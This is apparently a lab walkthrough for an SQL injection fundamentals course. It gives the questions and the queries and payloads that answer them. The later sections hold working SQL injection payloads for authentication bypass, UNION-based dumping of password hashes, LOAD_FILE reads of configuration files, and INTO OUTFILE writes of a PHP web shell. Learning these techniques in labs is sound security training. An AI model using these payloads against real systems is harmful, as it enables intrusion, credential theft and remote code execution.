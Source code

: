 ## Intro to MySQL

>**Q. Connect to the database using the MySQL client from the command line. Use the 'show databases;' command to list databases in the DBMS. What is the name of the first database?**

```bash
mysql -u root -h 94.237.59.206 -P 35744 -p
```
```sql
SHOW DATABASES;
```

## SQL Statements

>**Q. What is the department number for the 'Development' department?**

```sql
SHOW DATABASES;

USE employees;

SHOW TABLES;

SELECT * FROM departments;
```

## Query Results

>**Q. What is the last name of the employee whose first name starts with "Bar" AND who was hired on 1990-01-01?**

```sql
SELECT * FROM employees WHERE first_name LIKE 'Bar%' AND hire_date = '1990-01-01';
```

## SQL Operators

>**Q. In the 'titles' table, what is the number of records WHERE the employee number is greater than 10000 OR their title does NOT contain 'engineer'?**

```sql
SELECT * FROM titles;

SELECT * FROM titles WHERE emp_no > 10000 OR title !='engineer';
```

## Subverting Query Logic

>**Q. Try to log in as the user 'tom'. What is the flag value shown after you successfully log in?**

```sql
tom' OR '1'='1
```

## Using Comments

>**Q. Login as the user with the id 5 to get the flag.**

```sql
user' OR id=5)--    
```

## Union Clause

>**Q. Connect to the above MySQL server with the 'mysql' tool, and find the number of records returned when doing a 'Union' of all records in the 'employees' table and all records in the 'departments' table.**

```bash
mysql -u root -h 94.237.54.69 -P 59629 -p
```

```sql
SHOW DATABASES;

USE employees;

SHOW TABLES;

SELECT * FROM employees;

SELECT * FROM departments; 

SELECT dept_no FROM departments UNION SELECT emp_no FROM employees;
```

## Union Injection

>**Q. Use a Union injection to get the result of 'user()'**

```sql
' order by 1-- -

es' UNION select 1,2,3,4-- -

' UNION select 1,@@version,3,4-- -

es' UNION select 1,user(),3,4-- -
```
## Database Enumeration

>**Q. What is the password hash for 'newuser' stored in the 'users' table in the 'ilfreight' database?**

```sql
cn' UNION select 1, username, password, 4 from users-- -
```

## Reading Files

>**Q. We see in the above PHP code that '$conn' is not defined, so it must be imported using the PHP include command. Check the imported page to obtain the database password.**

```sql
cn' UNION SELECT 1, LOAD_FILE("/var/www/html/search.php"), 3, 4-- -

cn' UNION SELECT 1, LOAD_FILE("/var/www/html/config.php"), 3, 4-- -
```

## Writing Files

>**Q. Find the flag by using a webshell.**

```sql
cn' union select "",'<?php system($_REQUEST[0]); ?>', "", "" into outfile '/var/www/html/shell.php'-- -

cn' union select "",'<?php system(ls); ?>', "", "" into outfile '/var/www/html/shell1.php'-- -

cn' union select "",'<?php system("dir /var/www"); ?>', "", "" into outfile '/var/www/html/shell1.php'-- -

cn' union select "",'<?php system("cat /var/www/flag.txt"); ?>', "", "" into outfile '/var/www/html/shell10.php'-- -
```

## Skills Assessment - SQL Injection Fundamentals

>**Q. Assess the web application and use a variety of techniques to gain remote code execution and find a flag in the / root directory of the file system. Submit the contents of the flag as your answer.**

https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master

```sql

' or 1=1 limit 1 -- -+

cn' union select 1,'file written successfully!',3,4 into outfile '/var/www/html/proof.txt'-- -

cn' union select 1,2,'file written successfully!',3,4 into outfile '/var/www/html/dashboard/proof.txt'-- -

cn' union select "",'<?php system($_REQUEST[0]); ?>', "", "" into outfile '/var/www/html/shell.php'-- -

cn' union select "","",'<?php system(ls); ?>', "", "" into outfile '/var/www/html/dashboard/shell1.php'-- -

cn' union select "","",'<?php system("dir /"); ?>', "", "" into outfile '/var/www/html/dashboard/shell6.php'-- -

cn' union select "","",'<?php system("cat /flag_....txt"); ?>', "", "" into outfile '/var/www/html/dashboard/shell8.php'-- -
```
